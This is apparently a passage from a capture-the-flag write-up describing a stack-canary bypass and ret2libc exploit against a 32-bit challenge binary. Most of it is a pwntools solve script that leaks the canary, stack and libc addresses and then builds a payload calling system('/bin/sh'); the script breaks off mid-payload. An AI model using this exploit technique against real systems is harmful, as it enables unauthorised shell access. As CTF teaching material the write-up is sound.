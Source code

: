 - Call `puts` with `puts_reloc` as it's argument to leak the libc address of `puts`
- After we call `puts` to leak libc, we also place the address of `libc_start_main` to restart the program, but this *doesn't* rerandomize the base addresses
- Now, with leak in hand, follow through with a relatively standard ret2libc: place `bin/sh/\x00` on the stack, find and call `system()` in libc.

The final solve script:
```py
from pwn import *

libc = ELF('./libc.so.6')

r = remote('44.197.231.105', 3004)

print(r.recvuntil(b'value: 0x'))
canary = int(r.recvuntil(b')', drop=True), 16)
print(hex(canary))
r.recvuntil(b' at 0x')
stack = int(r.recvuntil(b':', drop=True), 16)

puts = 0x080490f0
print('puts:', hex(puts))
puts_reloc = 0x804c018
addr = stack + 56
payload = flat({
    20: p32(canary),
    48: p32(stack + 0x40), # ebp
    52: b''.join([
        p32(puts),
        p32(0x804968c - 5),
        p32(puts_reloc),
    ])
}, filler=b'\x90', length=80)

r.sendline(payload)
r.recvuntil(b'return')
r.recvuntil(b'--\n')

leak = u32(r.recvn(4))
print('leak:', hex(leak))

libc.address = leak - libc.symbols['puts']

print('libc base:', hex(libc.address))


system_addr = libc.symbols['system']
print('system:', hex(system_addr))

print(r.recvuntil(b'value: 0x'))
canary = int(r.recvuntil(b')', drop=True), 16)
print(hex(canary))
r.recvuntil(b' at 0x')
stack = int(r.recvuntil(b':', drop=True), 16)

payload = flat({
    0: b'/bin/sh\x00',
    20: p32(canary),
    48: p32(stack + 0x40),
    52: b''.join([
        p32(system_addr),
        p32(0x804968c - 5),
        p32(next(libc.search(b'/bin/sh\x00'))),
    ])
```